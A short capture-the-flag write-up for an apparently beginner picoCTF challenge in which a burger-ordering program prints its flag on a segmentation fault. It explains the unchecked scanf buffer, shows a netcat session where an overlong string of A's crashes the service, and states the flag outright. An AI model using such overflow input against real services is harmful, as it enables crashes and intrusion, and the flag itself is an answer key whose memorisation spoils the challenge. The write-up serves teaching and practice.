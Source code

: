 The flag is: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`

---

This program has a system that reads the flag from flag.txt and outputs it if a segmentation fault occurs.
Therefore, you can obtain the flag by causing a segmentation fault in the program.

The program takes input via `scanf()` into a 44-byte or 32-byte variable without size validation, so entering a value exceeding this limit triggers a **segmentation fault** and causes the flag to be printed.

```bash
therustymate-picoctf@webshell:~$ nc mimas.picoctf.net 60589
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

The flag is: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`